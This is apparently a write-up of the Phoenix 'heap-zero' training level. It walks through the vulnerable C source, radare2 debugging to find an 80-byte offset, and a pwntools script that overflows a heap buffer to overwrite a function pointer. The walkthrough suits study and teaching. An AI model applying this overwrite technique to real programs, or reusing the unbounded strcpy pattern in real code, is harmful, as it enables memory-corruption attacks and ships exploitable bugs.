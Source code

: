 ```yaml
---
description: 'http://exploit.education/phoenix/heap-zero/'
---
```


# heap0

## Source

Luckily it gives us the source:

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

struct data {
  char name[64];
};

struct fp {
  void (*fp)();
  char __pad[64 - sizeof(unsigned long)];
};

void winner() {
  printf("Congratulations, you have passed this level\n");
}

void nowinner() {
  printf(
      "level has not been passed - function pointer has not been "
      "overwritten\n");
}

int main(int argc, char **argv) {
  struct data *d;
  struct fp *f;

  if (argc < 2) {
    printf("Please specify an argument to copy :-)\n");
    exit(1);
  }

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  strcpy(d->name, argv[1]);

  printf("data is at %p, fp is at %p, will be calling %p\n", d, f, f->fp);
  fflush(stdout);

  f->fp();

  return 0;
}
```

## Analysis

So let's analyse what it does:

* Allocates two chunks on the heap
* Sets the `fp` variable of chunk `f` to the address of `nowinner`
* Copies the first command-line argument to the `name` variable of the chunk `d`
* Runs whatever the `fp` variable of `f` points at

The weakness here is clear - it runs a random address on the heap. Our input is copied there after the value is set and there's no bound checking whatsoever, so we can overrun it easily.

### Regular Execution

Let's check out the heap in normal conditions.

```text
$ r2 -d -A heap0 AAAAAAAAAAAA            <== that's just a parameter
$ s main; pdf
[...]
0x0040075d      e8fefdffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
0x00400762      488b45f8       mov rax, qword [var_8h]
[...]
```

We'll break right after the strcpy and see how it looks.

```text
[0x004006f8]> db 0x00400762
[0x004006f8]> dc
hit breakpoint at: 0x400762
```

![The Expected Two Chunks](../../.gitbook/assets/image%20%285%29.png)

If we want, we can check the contents.

![Chunk with our input](../../.gitbook/assets/image%20%282%29.png)

![The Chunk with the Function Address](../../.gitbook/assets/image%20%283%29.png)

So, we can see that the function address is there, after our input in memory. Let's work out the offset.

### Working out the Offset

Since we want to work out how many characters we need until the pointer, I'll just use a De Bruijn Sequence.

```text
$ ragg2 -P 200 -r
```

```text
$ r2 -d -A heap0 AAABAACAADAAE...
```

Let's break **on** and **after** the `strcpy`. That way we can check the location of the pointer then immediately read it and calculate the offset.

```text
[0x004006f8]> db 0x0040075d
[0x004006f8]> db 0x00400762
[0x004006f8]> dc
hit breakpoint at: 0x40075d
```

![The chunk before the strcpy](../../.gitbook/assets/image.png)

So, the chunk with the pointer is located at `0x2493060`. Let's continue until the next breakpoint.

```text
[0x0040075d]> dc
hit breakpoint at: 0x400762
```

![Corrupted](../../.gitbook/assets/image%20%281%29.png)

radare2 is nice enough to tell us we corrupted the data. Let's analyse the chunk again.

![](../../.gitbook/assets/image%20%284%29.png)

Notice we overwrote the `size` field, so the chunk is much bigger. But now we can easily use the first value to work out the offset \(we could also, knowing the location, have done `pxq @ 0x02493060`\).

```text
[0x00400762]> wopO 0x6441416341416241
80
```

So, fairly simple - 80 characters, then the address of `winner`.

## Exploit

```python
from pwn import *

elf = context.binary = ELF('./heap0')

payload = (b'A' * 80 + flat(elf.sym['winner'])).replace(b'\x00', b'')

p = elf.process(argv=[payload])

print(p.clean().decode('latin-1'))
```

{% hint style="info" %}
We need to remove the null bytes because `argv` doesn't allow them
{% endhint %}

